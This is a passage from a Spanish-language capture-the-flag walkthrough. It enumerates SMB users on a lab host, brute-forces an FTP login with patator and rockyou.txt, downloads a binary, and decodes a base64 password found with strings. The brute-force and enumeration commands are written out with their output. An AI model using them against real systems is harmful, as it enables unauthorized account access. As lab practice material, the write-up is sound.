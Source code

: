 ```bash
$ python3 enum4linux-ng.py -A 30.30.30.3
[*] Testing share shared
[+] Mapping: OK, Listing: OK

$ python3 enum4linux-ng.py 30.30.30.3 -R 1
[+] Found user 'Unix User\rayito' (RID 1000)
[+] Found user 'Unix User\hercules' (RID 1001)
```

Encontramos 2 usuarios del sistema, **rayito** y **hercules**,y un recurso compartido en el que tenemos permiso de lectura. No encontramos nada en el recurso compartido **shared**

Vamos a probar a hacer un ataque de fuerza bruta al servicio **FTP** con el usuario **hercules**:

```bash
$ patator ftp_login host=30.30.30.3 user=hercules password=FILE0 0=rockyou.txt -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500
...
16:13:45 patator    INFO - 230   17     0.057 | thunder1                           |  3981 | Login successful.
```

Encontramos una credencial para acceder al **FTP**, nos conectamos:

```bash
$ ftp hercules@30.30.30.3
Connected to 30.30.30.3.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Nos descargamos el fichero que hay:

```bash
ftp> get muerte_a_kratos.exe
```

En nuestra máquina vemos que cadenas de texto hay dentro del binario. Encontramos una cadena en **base64.**

```bash
$ strings muerte_a_kratos.exe
...
AGUAbABlAGMAdAByAG8AYwB1AHQANABjADEAMABuACE=
.. 

```

La desciframos y encontramos una posible contraseña:

```bash
echo 'AGUAbABlAGMAdAByAG8AYwB1AHQANABjADEAMABuACE=' | base64 -d
electrocut4c10n!
```
